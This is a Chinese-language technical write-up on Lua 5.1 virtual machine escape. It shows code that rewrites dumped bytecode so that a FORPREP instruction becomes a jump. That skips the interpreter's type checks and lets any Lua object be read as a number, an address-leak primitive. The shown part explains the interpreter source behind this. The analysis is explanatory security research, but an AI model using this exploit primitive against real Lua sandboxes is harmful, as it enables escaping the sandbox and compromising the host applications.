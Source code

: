 # LUA脚本虚拟机逃逸技术分析

**Author:boywhp@126.com**

参考[https://gist.github.com/corsix/6575486](https://gist.github.com/corsix/6575486)

0x00 LUA数据泄露
=====

LUA提供了string.dump将一个lua函数dump为LUA字节码，同时loadstring函数加载字节码为LUA函数，通过操作LUA原始字节码可以使得LUA解释器进入特殊状态，甚至导致BUG发生。

```
asnum = loadstring(string.dump(function(x)
  for i = x, x, 0 do
    return i
  end
end):gsub("\96%z%z\128", "\22\0\0\128"))

```

LUA字节码固定长度32bits，4字节，定义如下：

主要由op操作码、R(A)、R(B)、R(C)、R(Bx)、R(sBx)组成。A、B、C对应于LUA寄存器索引。

asnum函数可以将任意LUA对象转换为数字。（注：LUA5.1 64bitLinux环境）gsub函数将字节码`\96%z%z\128`替换为`\22\0\0\128`，如下：

```
0071  60000080           [4] forprep    1   1        ; to [6]
0075  1E010001           [5] return     4   2      
0079  5F40FF7F           [6] forloop    1   -2       ; to [5] if loop

```

执行gsub函数后，forprep指令被替换为JMP to [6]，LUA解释器forprep指令对应代码如下：

```
case OP_FORPREP: {
        const TValue *init = ra;
        const TValue *plimit = ra+1;
        const TValue *pstep = ra+2;
        L->savedpc = pc;  /* next steps may throw errors */
        if (!tonumber(init, ra))
          luaG_runerror(L, LUA_QL("for") " initial value must be a number");
        else if (!tonumber(plimit, ra+1))
          luaG_runerror(L, LUA_QL("for") " limit must be a number");
        else if (!tonumber(pstep, ra+2))
          luaG_runerror(L, LUA_QL("for") " step must be a number");
        setnvalue(ra, luai_numsub(nvalue(ra), nvalue(pstep)));
        dojump(L, pc, GETARG_sBx(i));
        continue;

```

正常情况下lua在forprep指令会检查参数是否为数字类型，并执行初始化，但是由于字节码被替换为JMP，直接跳过了LUA类型检查，进入forloop指令。
